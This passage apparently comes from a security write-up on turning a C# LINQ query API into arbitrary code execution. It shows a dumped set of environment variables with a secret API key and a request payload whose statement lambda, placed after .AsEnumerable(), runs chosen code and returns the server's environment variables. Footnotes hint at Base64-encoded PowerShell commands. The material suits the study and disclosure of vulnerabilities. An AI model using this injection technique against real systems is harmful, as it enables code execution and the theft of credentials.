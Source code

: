 ```text { linenos=true, linenostart=1, hl_lines=["9","10","38"] }
  "APPDATA": "C:\\Windows\\system32\\config\\systemprofile\\AppData\\Roaming",
  "TMP": "C:\\Temp",
  "ProgramData": "C:\\ProgramData",
  "ProgramW6432": "C:\\Program Files",
  "windir": "C:\\Windows",
  "USERDOMAIN": "<redacted>"
},
"Id": 1337
}
```

Wow, that's **big data**! Look at that _super secret api key_[^fn:2] just hanging out in line 38! As a side note: We have to include _something_ from the objects that get passed to `Select()` into our `anonymous object`, otherwise the whole response will be empty. In this case we simply used the `Id` in line 10.

While certainly a treasure trove of information, we can do better: Let's execute **big code**. Remember that we talked about `expression lambdas` above? Following the link reveals the second form of `C#` anonymous functions: `statement lambdas`. Instead of an expression on the right side of the `lambda declaration operator =>`, we now write an arbitrary number of statements enclosed in braces. The final statement of the block can be a `return statement`, which lets us shape the response just as before.

But why go through the hassle? Well, we can now write any code we please inside the braces. That's a lot more ergonomic than solely relying on anonymous types for custom code. Let's see it in action:

```text { linenos=true, linenostart=1, hl_lines=["8-17"] }
---snip---
--data '[
  {
    "query" : "(context) =>
      context
      .Documents()
      .Where(document => document.Id == 1337)
      .AsEnumerable()
      .Select(document => {
        // Write lots and lots of code.
        // Write even more code.
        // Write BIG CODE.
        return new {
          Environment = Environment.GetEnvironmentVariables(),
          document.Id
        };
      })"
  }
]'
```

It turns out that the `.AsEnumerable()` in line 8 is key here. From this point on, the following `LINQ` lines operate on an in-memory collection, as opposed to translating the _whole_ query expression into a `SQL` statement. Otherwise, we would be limited to `expression lambdas`. I don't fully understand the details, but it has something to do with how our queries get compiled down the line.

The `Microsoft` docs have this to say:


[^fn:1]: As opposed to [query syntax](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/linq/query-syntax-and-method-syntax-in-linq).
[^fn:2]: Here's your friendly reminder that environment variables are **not** a safe place to store secrets.
[^fn:3]: You can find more information and a pretty diagram [here](https://docs.microsoft.com/en-us/iis/get-started/introduction-to-iis/introduction-to-iis-architecture#http-request-processing-in-iis).
[^fn:4]: Again, `Microsoft` has [more](https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities) information on the topic.
[^fn:5]: You should instead check out the man himself [here](https://fasterthanli.me/series/reading-files-the-hard-way).
[^fn:6]: It's not as straightforward to obtain the imports of a binary as it is on `Linux`. In the end, I simply loaded the .exe into `Ghidra` and looked at the "Symbol Tree".
[^fn:7]: At first, I've simply used the amazing [CyberChef](https://gchq.github.io/CyberChef/) to encode the command. It turns out that this will trip up `PowerShell`, as it's expecting an `Unicode` string. To make it work, we have to encode our command to `UTF-16LE` before applying the `Base64` encoding. This can be done with `CyberChef` as well. Of course it can.